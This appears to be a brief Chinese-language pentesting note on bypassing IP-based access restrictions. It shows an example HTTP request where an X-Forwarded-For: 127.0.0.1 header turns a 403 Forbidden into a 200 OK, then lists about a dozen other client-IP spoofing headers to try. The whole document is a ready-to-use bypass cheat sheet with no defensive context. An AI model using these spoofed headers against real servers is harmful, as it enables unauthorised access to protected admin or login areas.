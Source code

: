 ```
X-ip绕过
# Requset 
  GET /auth/login HTTP/1.1
# Response
  HTTP/1.1 403 Forbidden

# Requset 
  GET / HTTP/1.1
  Host: 192.168.0.92
  X-Forwarded-For: 127.0.0.1
# Response
  HTTP/1.1 200 ok

还有：
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
```


使用X-Forwarded-For： 127.0.0.1绕过

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/OGg_LWtt4htDBnCVtbiBsLoLZnzgSo-SbPnwpQEuZIU.png?raw=true)
